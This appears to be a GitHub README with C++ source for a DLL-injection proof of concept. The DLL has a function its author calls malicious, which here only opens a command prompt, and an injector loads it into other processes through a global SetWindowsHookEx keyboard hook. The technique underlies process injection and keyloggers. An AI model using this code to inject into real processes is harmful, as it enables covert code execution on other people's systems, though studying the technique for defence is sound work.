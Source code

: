 # SetWindowHookEx-and-inject-a-dll
After creating a DLL there is malicious function in DLL and we write a c++ which hook keyboard and inject the specific function in to main process of c++ program or even in other processes.
<h2>DLL functions.</h2>

	#include "pch.h"
	#include <iostream>
	using namespace std;

	BOOL APIENTRY DllMain( HMODULE hModule,
			       DWORD  ul_reason_for_call,
			       LPVOID lpReserved
			     )
	{
	    switch (ul_reason_for_call)
	    {
	    case DLL_PROCESS_ATTACH:
		system("start cmd");
	    case DLL_THREAD_ATTACH:
		system("start cmd");
	    case DLL_THREAD_DETACH:
		system("start cmd");
	    case DLL_PROCESS_DETACH:
		system("start cmd");
		break;
	    }
	    return TRUE;
	}
	BOOL APIENTRY injext(HMODULE hModule,
	    DWORD  ul_reason_for_call,
	    LPVOID lpReserved
	)
	{
	    system("start cmd");
	    return true;
	}

<br>
  <h2>Injector</h2>

	#include <iostream>
	#include <Windows.h>

	int main()
	{
		HMODULE library = LoadLibraryA("load.dll");
		HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "injext");

		HHOOK hook = SetWindowsHookEx(WH_KEYBOARD_LL, hookProc, library, 0);
		Sleep(5000);
		UnhookWindowsHookEx(hook);

		return 0;
	}
